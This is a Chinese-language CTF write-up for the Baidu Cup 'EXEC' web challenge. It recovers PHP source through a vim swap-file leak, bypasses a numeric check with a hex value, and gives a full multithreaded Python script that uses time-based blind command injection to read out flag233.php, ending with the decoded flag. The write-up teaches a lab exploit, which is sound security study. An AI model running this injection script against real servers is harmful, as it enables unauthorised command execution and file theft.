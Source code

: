 ```yaml
---
title: 百度杯CTF比赛 十月场-EXEC
date: 2018-02-13 20:48:00
tags: [WEB,SKR]
categories: CTF
copyright: true
---
```

# 前言
这道题本来要用`bash反弹shell`的技术的，但是由于没有公网ip的服务器，我就用了命令盲注的方法，特此记录一下。
# 分析
打开链接题目提示`no sign`。查看源代码发现这一行
```html
<meta language='utf-8' editor='vim'>
```
于是就想到了`vim信息泄露`，于是访问`.index.php.swp`成功下载了源代码
```php
<html>
<head>
<title>blind cmd exec</title>
<meta language='utf-8' editor='vim'>
</head>
</body>
<img src=pic.gif>
<?php
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {   
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
	setcookie('auth','tcp tunnel is forbidden!');
	if(isset($_POST['cmd'])){
		$command=$_POST[cmd];
		$result=exec($command);
		//echo $result;
	}
}else{
	die('no sign');
}
?>
</body>
</html>

```
分析源码，发现可以执行命令，但是没有回显。最先想到的就是bash反弹shell来执行命令，此外题目提示`tcp tunnel is forbidden!`，就只能反弹到udp的端口了。但是我没有公网ip的服务器咋办啊，于是联想到以前做过的sql盲注这次我来个命令盲注。
页面没有回显，就只能做基于时间的盲注了，脚本总的来说很简单，使用了多线程，下面贴出exp
```python
import requests,string,threading

def getLength(url,payload):
    data = {}
    length = 0
    for i in xrange(200):
        data['cmd']="a=$(%s);b=${#a};if test $b -eq %d;then sleep 3;fi"%(payload,i)
        try:
            r = requests.post(url,data=data,timeout=3)
        except:
            length = i
            print "the string length is {}".format(length)
            break
    return length
    
def getString(url,payload):
    global length,lock,curId,key
    data = {}
    words = string.uppercase+string.lowercase+string.digits+'/=+'
    i = 0
    while True:
        lock.acquire()
        if curId == length:
            lock.release()
            break
        i = curId
        curId += 1
        lock.release()
        for j in words:
            data['cmd']="a=$({});b=`expr substr $a {} 1`;if test $b = '{}';then sleep 8;fi".format(payload,i+1,j)
            try:
                r = requests.post(url,data=data,timeout=8)
            except:
                key[i] = j
                lock.acquire()
                print ''.join(key)
                lock.release()
                break


url = 'http://708ff2d40f1d48a5bef9408daed3fa0665c6180098394883.game.ichunqiu.com/?sign=0xabcdef'
payload = "base64 flag233.php -w 0" 
length = getLength(url,payload)
lock = threading.Lock()
curId = 0 #max(curId) = length - 1
key = ['?' for i in xrange(length)]

th=[]
for i in xrange(10):
    t = threading.Thread(target=getString,args=(url,payload))
    th.append(t)
for t in th:
    t.start()  
for t in th:
    t.join()
    
```
需要注意的是，题目使用的shell是`sh`（`dash`和`bash`的区别[看这个](http://ju.outofmemory.cn/entry/135)），所以在字串截取时不能使用`bash`的`${a:1:1}`的方式。还有就是在使用`expr substr`进行子串截取时目标字符串需要是单行的否则会出错，可以配合`head`和`tail`命令一行一行读取。这里我使用了`base64`命令将命令结果编码，防止换行或特殊字符干扰。注意要使用`base64 -w 0`关闭换行。
最后运行代码获得flag
```bash
root@kali:~# echo PD9waHAKCSRmbGFnPSdmbGFne2ExMWM4MjI3LWMyNGItNDAyNC1hMDRhLTdiOGIxOTYxZGM1ZH0nOwo/PgpoaGhoaGhoaGhoaCx0b28geW91bmcgdG9vIHNpbXBsZQo= | base64 -d
<?php
	$flag='flag{a11c8227-c24b-4024-a04a-7b8b1961dc5d}';
?>
hhhhhhhhhhh,too young too simple
root@kali:~# 

```
还需要注意的是，由于题目平台资源限制，使用多线程会导致平台反应过慢从而导致盲注的正确性降低。可以通过减少线程或是增大`sleep`的时间来增加正确率。
# 总结
算是另辟蹊径了，而且在写代码的时候学到了很多。原来不熟悉，不理解的命令用法更清楚了。但是还要注意的是，时间盲注在注入时间较长时就容易造成误差，有的字节会出错，反正再有别的解决方法时时间盲注不是优先选择的方法。